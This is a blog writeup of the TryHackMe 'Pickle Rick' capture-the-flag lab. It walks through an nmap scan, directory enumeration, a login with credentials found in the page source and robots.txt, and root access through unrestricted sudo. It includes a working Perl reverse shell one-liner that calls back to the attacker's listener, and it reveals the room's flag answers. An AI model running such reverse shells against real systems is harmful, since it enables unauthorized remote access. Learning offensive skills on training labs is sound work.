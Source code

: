 ```yaml
---
tagline: picklerick
title: Pickle Rick | Writeup
description: An extra-fun web server exploitation room
banner: /blog/picklerickbanner.jpeg/
banner_alt: Information is power. But like all power, there are those who want to keep it for themselves. -Aaron Swartz
date: '2024-03-10'
---
```


## 📡 NMAP Scan

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.108.226
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 21:47 EST
Nmap scan report for 10.10.108.226
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

- Port 22 & 80 are open.

## 🌐 Accessing the website

- Since port 80 is open, we know there is a website. Let's check it out!

![Image showing the website](/blog/picklerick/website.png 'Fig.1')

- Judging by the blatent hint, we need to use Burpsuite.

## 🟧🔎 Burpsuite & Dirsearch

![Image showing a comment](/blog/picklerick/secretcomment.png 'Fig.2')

- In the source code, I found a comment with a username. That may be useful in the future.

- Since we have no leads to follow, let's run Dirsearch.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ dirsearch -u http://10.10.108.226 --exclude-status 403,404
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/http_10.10.108.226/_24-03-09_23-40-12.txt

Target: http://10.10.108.226/

[23:40:12] Starting:                                                                                  
[23:40:36] 200 -  588B  - /assets/                                          
[23:40:36] 301 -  315B  - /assets  ->  http://10.10.108.226/assets/
[23:40:53] 200 -  455B  - /login.php                                        
[23:41:03] 200 -   17B  - /robots.txt                                       
                                                                             
Task Completed
```

## Aquiring the Ingredients

- Lets look at */robots.txt* first.

![Image showing robots.txt](/blog/picklerick/robotstxt.png 'Fig.3')

- Oh! Lets just keep that string of text for future reference though.

- We should also take a look at */login.php* as that is the only page that may potentially assist us.

![Image showing login page](/blog/picklerick/login.png 'Fig.4')

- We know the username is *R1ckRul3s*, what if we try the text we found in */robots.txt*?

![Image showing us logged in](/blog/picklerick/loggedin.png 'Fig.5')

- AND IT WORKED!!!! It seems like we get a Command Panel, lets run some commands to get some ingredients.

- Running ```ls``` gives us this (seen in Fig.6 below)

![Image showing me running ls](/blog/picklerick/ls.png 'Fig.6')

- Now we know we can run commands like this, let's get the first ingredient first!

![Image showing it not letting me](/blog/picklerick/commandissue.png 'Fig.7')

- I think we have to spawn a Reverse Shell (I will be using [revshells.com](https://www.revshells.com/))

```bash:Panel
# below is the reverse shell i used

perl -e 'use Socket;$i="10.6.22.229";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

- On another tab

```bash:Terminal
──(vipin㉿vipin)-[~]
└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.6.22.229] from (UNKNOWN) [10.10.108.226] 35408
sh: 0: can't access tty; job control turned off
$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

- Ok, now the second ingredient.

```bash:Terminal
$ pwd
/home/rick
$ cat second\ ingredients
1 jerry tear
$ 
```

- Running ```sudo -l``` told me I could run anything as long as I use ```sudo```. Let's get the Final Ingredient!

```bash:Terminal
$ sudo ls root
3rd.txt
snap
$ sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
$ 
```

### MACHINE PWN'ED 😎

![My Tryhackme badge](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)
